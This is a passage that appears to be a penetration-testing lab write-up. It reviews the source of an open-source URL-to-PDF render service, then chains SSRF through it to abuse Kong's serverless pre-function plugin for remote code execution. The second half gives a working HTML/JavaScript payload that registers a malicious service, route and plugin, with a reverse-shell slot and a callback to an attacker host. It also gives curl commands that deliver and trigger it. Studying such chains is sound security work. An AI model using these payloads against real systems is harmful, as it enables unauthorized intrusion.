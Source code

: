 ## The Render Service

The Render Service is an open-source _URL to PDF microservice_.
Visiting the GitHub source of the API, we see a warning:

![](../../03.%20Images/t9-ss30.png)

The API is not supposed to be run publicly, however we have access to the service. We can now begin our source code review of the API, to find any potential RCE points.

We start by reviewing the src folder, the router.js file:

![](../../03.%20Images/t9-ss31.png)
The code starts by importing various frameworks, such as express, and middleware, such as express-validator. It also imports 3 custom objects, from the /util/validation js file.
Reviewing the code further:

![](../../03.%20Images/t9-ss32.png)

The code defines the router for GET requests to /api/render.
The first parameter to the render.get function is the URI path.
The 2nd parameter is a validation function that receives the getRenderSchema object.
Finally, the handler function is called(set by last parameter, render.getRender)

We can now move on to review validation function:

![](../../03.%20Images/t9-ss33.png)

The code first starts off by importing the Joi library to define and validate the shapes of objects that will represent the body of an HTTP request.
The first variable is urlSchema that is a Joi string schema that requires the string to be a valid URL, with the the http or https schema

However, our main interest is the variable that was seen in the router.js file:

![](../../03.%20Images/t9-ss34.png)

The _renderQuerySchema_ definition is also a Joi object.
The code defines a url parameter with the value of urlSchema.required() function.
These settings should prevent the application from processing a URL with the FILE protocol.
We can see that by making a request to the local /etc/passwd file:

![](../../03.%20Images/t9-ss35.png)

The error thrown tells that a valid URL needs to be provided.

Now that we understand the validation, we can now move on to understanding the handler render.getRender function.
We first look for the function using a simple grep query:

![](../../03.%20Images/t9-ss36.png)

however, we notice that:

![](../../03.%20Images/t9-ss37.png)

The getRender function performs some additional validation by calling assertOptionsAllowed.
The options are then passed to the renderCore.render function.
We can study this function in the core/render-core.js file:

![](../../03.%20Images/t9-ss38.png)
Starting off with the import statements, we see that the application uses puppeteer, which is a Node library for programmatically managing chrome.

![](../../03.%20Images/t9-ss39.png)

![](../../03.%20Images/t9-ss40.png)

![](../../03.%20Images/t9-ss41.png)

The function first declares a browser object.
The createBrowser function, which creates a new browser process using puppeteer, sets the value of the object.
Then, a new page is created.
A page in this context can be thought of as single tab in the browser.
The code then defines several response handlers.
Finally, the function checks if HTML was submitted as part of the request. If not, the function loads the submitted URL in the browser.

At the end of the function:

![](../../03.%20Images/t9-ss42.png)

If the requested output is a PDF, the function calls the _page.pdf_ function and sets the results in the data variable.
Otherwise, if the requested output format is HTML, the function instead calls page.evaluate, which returns the loaded page's innerHtml element.

## Code Execution

After a review on the documentation, we find that Kong admin plugins can be a good place to start.
For example, the serverless Functions plugin have an interesting warning in the documentation:

```txt
Warning: The pre-function and post-function serverless plugin allows anyone who can enable the plugin to execute arbitrary code. If your organization has security concerns about this, disable the plugin in your kong.conf file.
```

We can check if Kong has the plugin enabled:

![](../../03.%20Images/t9-ss43.png)

According to the Kong documentation, we have to add a plugin to a service.
We could add the plugin to an existing service, but let's limit the exposure of it by creating a new service. A Service needs a Route for us to call it.
We will create a new HTML page with a JavaScript function that creates a service, adds a route to the service, then adds our Lua code as a "pre-function" plugin to the service.

We will use the following script:
 
```html
<html>
<head>
<script>

function createService() {
    fetch("http://172.16.16.2:8001/services", {
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"supersecret", "url": "http://127.0.0.1/"})
    }).then(function (route) {
      createRoute();
    });
}

function createRoute() {
    fetch("http://172.16.16.2:8001/services/supersecret/routes", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"paths": ["/supersecret"]})
    }).then(function (plugin) {
      createPlugin();
    });  
}

function createPlugin() {
    fetch("http://172.16.16.2:8001/services/supersecret/plugins", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"pre-function", "config" :{ "access" :[  REVERSE SHELL HERE ]}})
    }).then(function (callback) {
      fetch("http://192.168.118.3/callback?setupComplete");
    });  
}
</script>
</head>
<body onload='createService()'>
<div></div>
</body>
</html>
```

Here, the first function, sends a POST request to create a new service named "supersecret".
The function then calls the 2nd createRoute() function, which adds the "supersecret" route to the new service.
It then calls the 3rd createPlugin() function, which adds our Lua payload as a plugin on the service.
Finally, it makes a GET request to our Kali host.

Now that our payload is ready, we will execute it with the following IP:

```bash
curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://<attacker IP>/rce.html"}' http://apigateway:8000/files/import
```

We know our request is successful as we get a callback on our apache server:

![](../../03.%20Images/t9-ss44.png)

Finally, we make a curl request to our new malicious plugin:
```bash
curl -i  http://apigateway:8000/supersecret
```

And get the RCE:

![](../../03.%20Images/t9-ss45.png)